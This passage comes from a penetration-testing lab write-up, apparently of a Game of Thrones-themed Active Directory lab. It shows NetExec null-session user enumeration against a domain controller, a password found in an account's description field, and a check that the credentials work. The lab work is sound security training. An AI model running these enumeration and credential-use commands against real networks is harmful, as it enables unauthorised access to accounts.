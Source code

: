 Now that I had a NULL sessions target, I proceeded to dump all users for the `NORTH` domain.

```
# nxc smb 10.2.10.11 -u "" -p "" --users

SMB         10.2.10.11      445    WINTERFELL       [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.11      445    WINTERFELL       [+] north.sevenkingdoms.local\:
SMB         10.2.10.11      445    WINTERFELL       -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.2.10.11      445    WINTERFELL       Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.2.10.11      445    WINTERFELL       arya.stark                    2024-08-08 00:48:18 0       Arya Stark
SMB         10.2.10.11      445    WINTERFELL       sansa.stark                   2024-08-08 00:48:29 0       Sansa Stark
SMB         10.2.10.11      445    WINTERFELL       brandon.stark                 2024-08-08 00:48:32 0       Brandon Stark
SMB         10.2.10.11      445    WINTERFELL       rickon.stark                  2024-08-08 00:48:34 0       Rickon Stark
SMB         10.2.10.11      445    WINTERFELL       hodor                         2024-08-08 00:48:37 0       Brainless Giant
SMB         10.2.10.11      445    WINTERFELL       jon.snow                      2024-08-08 00:48:40 0       Jon Snow
SMB         10.2.10.11      445    WINTERFELL       samwell.tarly                 2024-08-08 00:48:42 0       Samwell Tarly (Password : Heartsbane)
SMB         10.2.10.11      445    WINTERFELL       jeor.mormont                  2024-08-08 00:48:45 0       Jeor Mormont
SMB         10.2.10.11      445    WINTERFELL       sql_svc                       2024-08-08 00:48:48 0       sql service
SMB         10.2.10.11      445    WINTERFELL       [*] Enumerated 10 local users: NORTH
```

Not many users existed within the domain; however, I did notice within Netexec’s output that `SAMWELL.TARLY`‘s account had their password, Heartsbane, leaked within the account’s description field within Active Directory. <u>I have seen this in live client environments, especially for odd service accounts, keep this in your back pocket on pentests!</u> 

I validated the user’s credentials just to ensure they are correct. If so, it would grant me an authenticated foothold without having to do anything else!

```
# nxc smb 10.2.10.11 -u samwell.tarly -p Heartsbane

SMB         10.2.10.11      445    WINTERFELL       [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.11      445    WINTERFELL       [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane
```

Netexec did not report any issues and returned `[+]`, indicating successful authentication. *(In console, the `[+]` is highlighted in green as well)*

With an authenticated foothold achieved, I tested trusts between the domains as we know there are three total domains in the lab. To do so, I simply used `SAMWELL.TARLY@NORTH.SEVENKINGDOMS.LOCAL` credentials and authenticated against the other two domains’ DCs. 
